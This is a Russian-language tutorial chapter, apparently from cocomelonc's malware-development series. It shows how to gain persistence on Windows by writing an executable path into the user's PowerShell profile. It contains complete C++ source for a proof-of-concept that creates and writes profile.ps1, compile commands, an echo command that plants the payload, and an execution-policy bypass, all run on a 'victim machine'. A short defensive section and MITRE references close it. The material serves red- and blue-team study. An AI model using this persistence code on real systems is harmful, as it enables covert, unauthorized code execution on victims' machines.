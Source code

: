 \newpage
\subsection{77. Разработка вредоносного ПО: закрепление (persistence) - часть 11. Профиль PowerShell. Простой пример на C++.}

﷽

![pers](./images/70/2022-09-20_08-06.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: через профиль PowerShell.    

### профиль PowerShell

Профиль PowerShell - это скрипт PowerShell, который позволяет системным администраторам и пользователям настраивать свою среду и выполнять определённые команды при запуске сессии Windows PowerShell.     

Скрипт профиля PowerShell хранится в папке `WindowsPowerShell`:    

![pers](./images/70/2022-09-20_08-29.png){width="80%"}    

Добавим следующий код в файл профиля текущего пользователя, который будет выполняться при каждом запуске консоли PowerShell пользователем:

`Z:\2022-09-20-malware-pers-11\hack.exe`    

Я продемонстрирую этот метод на практическом примере, чтобы всё стало понятно.    

### практический пример

Сначала создадим наш "вредоносный" файл:     

```cpp
/*
hack.cpp
вредоносное приложение для Windows
закрепление через профиль PowerShell
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как обычно, это просто "meow-meow" messagebox.    

Компилируем:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07.png){width="80%"}    

Запускаем на машине жертвы для проверки корректности:    

![pers](./images/70/2022-09-20_09-03.png){width="80%"}    

Теперь применяем этот простой "трюк":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > \
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

И наконец, запускаем PowerShell:    

```powershell
powershell -executionpolicy bypass
```

![pers](./images/70/2022-09-20_08-16.png){width="80%"}    

![pers](./images/70/2022-09-20_08-18.png){width="80%"}    

Как видно, наш вредоносный код выполняется при запуске PowerShell, и родительским процессом для messagebox является PowerShell. =^..^=    

Я создал простой PoC-код для автоматизации этого процесса:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

Логика проста: этот скрипт просто создает папку профиля, если ее нет, затем создает файл профиля и обновляет его.    

### демонстрация

Давайте посмотрим, как это работает. Компилируем наш PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07_1.png){width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

![pers](./images/70/2022-09-20_08-09.png){width="80%"}    

![pers](./images/70/2022-09-20_08-11.png){width="80%"}    

А теперь запускаем сеанс PowerShell:        

![pers](./images/70/2022-09-20_08-51.png){width="80%"}    

Если проверим через Process Hacker:     

![pers](./images/70/2022-09-20_08-53.png){width="80%"}    

`powershell.exe` снова является родительским процессом, как и ожидалось.     

Как видно, всё работает идеально! =^..^=    

Однако есть один нюанс. Если PowerShell запускается без режима обхода политики выполнения, этот метод закрепления не сработает:    

![pers](./images/70/2022-09-20_09-05.png){width="80%"}    

Кроме того, существует четыре места, в которых можно злоупотребить профилем PowerShell, в зависимости от имеющихся привилегий:   

```powershell
$PROFILE | select *
```

![pers](./images/70/2022-09-20_09-08.png){width="80%"}    

Хранение произвольных инструкций в скрипте профиля PowerShell предоставляет множество возможностей для выполнения кода. Чтобы избежать зависимости от запуска PowerShell пользователем, можно использовать запланированное задание, которое запускает PowerShell в определённое время.      

### способы защиты

Принудительное выполнение только подписанных PowerShell-скриптов. Подписывайте профили, чтобы избежать их модификации. Также можно полностью отказаться от профилей PowerShell, если они не нужны, используя флаг `-No-Profile`.    

Этот метод закрепления используется группой [Turla](https://attack.mitre.org/groups/G0010/) в реальных атаках.    

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
